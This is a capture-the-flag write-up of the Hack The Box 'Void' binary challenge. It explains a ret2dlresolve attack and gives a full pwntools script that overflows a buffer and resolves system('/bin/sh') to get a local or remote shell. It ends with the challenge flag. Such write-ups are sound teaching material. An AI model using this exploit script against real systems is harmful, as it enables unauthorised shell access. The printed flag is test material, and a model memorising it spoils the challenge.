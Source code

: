 # Void
> Write-up author: jon-brandy
## DESCRIPTION:
The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary - not stripped.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/051edd67-8036-4c74-bdbc-9f7a144140ec)

> No Canary Found, PARTIAL RELRO, NO PIE

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/883735c5-0bb9-4f85-9485-e5de52f1ce4e)


2. Let's decompile the binary with ghidra.
3. At the main() function, there's only one function called --> vuln()

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/c762cb32-c0fd-4976-b2af-6725b8c9965b)


4. At first, i assume that the chall must be related to `ret2libc` because there's no interesting function to return to.
5. But after checking the **Global Offset Table** turns out there are no `puts()`, `printf()`, or `write()` functions.
6. Then i realized it's a `ret2dlresolve` pwn challenge. It's a technique in pwn to manipulate the dyanmic linker's resolution process and redirect it to execute arbitrary code.
7. Actually it's `quite similiar` to overwrite GOT with format strings vuln.
8. Also we can utilize **pwntools** to automate the process to resolve the functions, because if we don't use pwntools, we need to construct 3 structures to fake.

```console
There're 3 structures we need to fake:
- STRTAB
- SYMTAB
- JMPREL
```

9. Here's the script i used to solve this:

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './void'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

padding = 72

rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
rop.raw(asm('nop') * padding)
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)

sh.sendline(rop.chain())
sh.sendline(dlresolve.payload)

sh.interactive()
```

> LOCALLY

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/57498dbc-34a6-45b1-aa52-0c1c9568caf8)


10. Let's send it remotely.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/48407f72-6cd6-431d-a2ff-54578d5302a2)


11. Got the flag!

## FLAG

```
HTB{pwnt00l5_h0mep4g3_15_u54ful}
```
